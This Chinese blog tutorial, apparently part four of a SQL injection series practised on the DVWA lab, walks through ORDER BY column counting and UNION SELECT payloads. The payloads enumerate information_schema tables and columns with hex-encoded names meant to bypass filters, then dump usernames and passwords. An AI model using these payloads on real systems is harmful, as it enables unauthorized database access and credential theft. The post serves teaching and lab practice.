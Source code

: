 ```yaml
---
layout: post
title: SQL 注入（四）
desc: ""
keywords: ""
date: 2016-07-01
categories: []
tags: []
---
```


一天不更就觉得是对生命的浪费啊魂淡 (,,･∀･)ﾉ゛

## 使用 order by 查询字段

`order by` 语句会对查询结果进行排列，可以借此判断列数。`+--+`可以对后面内容进行注释，便利构造语句

## 联合查询获取当前数据库、用户、版本信息

可以构造`union select`语句，来查询正在使用中的用户`user()`、数据库`database()`、数据库版本`version()`、服务器操作系统等信息`@@version_compile_os`，例如：

```
union select user(),database()+--+
```

## 查询数据库用户名和密码

前面提到过，在 MySQL 5.0 及以上版本，`information_schema`存储着所有数据库下的表名和列名信息。

### 查询表名

`information_schema.tables`为数据库名下表名`tables`记录所有数据库名下所有表名信息的表。

```
union select 1, group_concat(table_name) from information_schema.tables where 
table_schema=0x64767741+--+&Submit=Submit
```

 

这条语句表示联合查询满足数据库名为`information_schema`的库中的`tables`这个表，将其所有符合条件的字段，即属于`dvwa`库的表的信息都列出来

其中`0x64767741`为十六进制数，表示数据库名`dvwa`，在我们实际操作时，应当在查询到数据库名之后将其转换为十六进制数填入这个位置，可以借此绕过过滤检测。

### 查询列名

同理`information_schema.columns`是记录数据库下所有列名信息的表

若已知表名`users`，想要查询其下面的列名，则需要用以下语句：

```
union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273+--+&Submit=Submit
```

其中`0x7573657273`为`users`的十六进制形式

### 查询用户名密码

```
union select user,password from users+--+&Submit=Submit
```

其中 users 为上一步查到的表名